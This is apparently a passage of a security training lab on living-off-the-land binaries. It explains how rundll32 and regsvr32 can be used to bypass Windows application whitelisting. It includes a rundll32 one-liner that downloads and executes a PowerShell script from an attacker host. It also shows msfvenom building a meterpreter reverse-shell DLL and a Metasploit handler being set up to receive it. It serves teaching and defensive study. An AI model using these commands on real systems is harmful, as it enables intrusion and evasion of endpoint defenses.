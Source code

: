 - **Command Prompt**

```shell-session
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
	    
```

As a result of the previous execution, a copy of the script.ps1 downloaded into memory on the target machine.

#  Application Whitelisting Bypasses

### Bypassing Application Whitelisting

Application Whitelisting is a Microsoft endpoint security feature that prevents  malicious and unauthorized programs from executing in  real-time. Application whitelisting is rule-based, where it specifies a  list of approved applications or executable files that are allowed to be present and executed on an operating system. This task focuses on LOLBAS examples that are used to bypass the Windows application whitelisting.

### Regsvr32

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. The regsvr.exe binary is located at:

- C:\Windows\System32\regsvr32.exe for the Windows 32 bits version
- C:\Windows\SysWOW64\regsvr32.exe for the Windows 64 bits version

Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting. According to [Red Canary](https://redcanary.com/) reports, the regsvr32.exe binary is the third most popular [ATT&CK technique](https://attack.mitre.org/techniques/T1218/010/). Adversaries leverage regsvr32.exe to execute native code or scripts locally or remotely. The technique used in the regsvr32.exe uses trusted Windows OS components and is executed in memory, which is one of the reasons why  this technique is also used to bypass application whitelisting. 

Let's try to apply this technique in real life. First, we need to create a malicious DLL file using msvenom and set up our Metasploit listener to receive a reverse  shell. Note that we will be creating a malicious file that works for  32bit operating systems. We will be using the regsvr32.exe Application Whitelisting Bypass technique to run a command on a target system.

- **Terminal**

```shell-session
user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f dll -a x86 > live0fftheland.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload 
No encoder specified, outputting raw payload 
Payload size: 375 bytes 
Final size of dll file: 8704 bytes 

user@machine$ user@machine$ msfconsole -q 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST ATTACKBOX_IP
LHOST => ATTACKBOX_IP
msf6 exploit(multi/handler) > set LPORT 443 
LPORT => 443 
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on ATTACKBOX_IP:443 
	    
```